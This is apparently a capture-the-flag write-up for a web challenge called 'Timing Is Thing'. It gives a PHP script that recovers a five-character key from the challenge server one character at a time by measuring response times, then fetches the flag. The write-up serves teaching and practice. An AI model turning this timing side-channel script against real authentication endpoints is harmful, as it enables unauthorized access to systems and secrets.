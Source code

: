 ## Timing Is Thing (Web Exploitation)
No another way to find my key, keep your pc Online **Kunci adalah [a-zA-Z0-9]**

### Reference
- https://en.wikipedia.org/wiki/Brute-force_attack

### Proof of Concept
- Make simple script for solve this challenges
	- Example code
	```php
	error_reporting(0); // ignore http error 500

	$key = "00000"; // initial key
	foreach (str_split($key) as $u => $asu) {
	    list($max, $result) = [0, null];
	    foreach (array_merge(range("a", "z"), range("A", "Z"), range("0", "9")) as $i => $x) {
	        $key[$u] = $x; // replace key index 0..4

	        echo "[*] Trying {$key}... ";
	        $start = microtime(true);
	        file_get_contents("http://ctfs-chall1.herokuapp.com/bruteforce-key/?kunci={$key}");
	        $end = microtime(true);

	        $tmp[] = [$x, number_format(($end - $start), 2)]; // save time exec to temporary variable
	        printf("[%sms]" . PHP_EOL, $tmp[count($tmp) - 1][1]);
	    }

	    echo PHP_EOL . "[!] Compare time..." . PHP_EOL;
	    foreach ($tmp as $datas) {
	        // comparing time exec, get max time execution
	        if ($datas[1] > $max) {
	            $max      = $datas[1];
	            $result[] = $datas[0];
	        }
	    }

	    $key[$u] = $result[count($result) - 1];
	    printf("[*] Max time: %s\n[*] Temp Key: %s" . PHP_EOL . PHP_EOL, $max, $key);
	}

	printf(PHP_EOL . "[*] Final Key: %s\n[!] Sending key to server..\n[*] Flag: CTFS%s" . PHP_EOL, $key, explode('CTFS', file_get_contents("http://ctfs-chall1.herokuapp.com/bruteforce-key/?kunci={$key}"))[1]);
	```

	- Usage
	```
	>> php {file}.php
	[*] Trying 00000... [{time}ms]
	.
	.
	.
	[*] Trying 99999... [{time}ms]

	[*] Final Key: **censored** (u can try it yourself, read the introduction in README.md)
	[!] Sending key to server..
	[*] Flag: CTFS{}
	```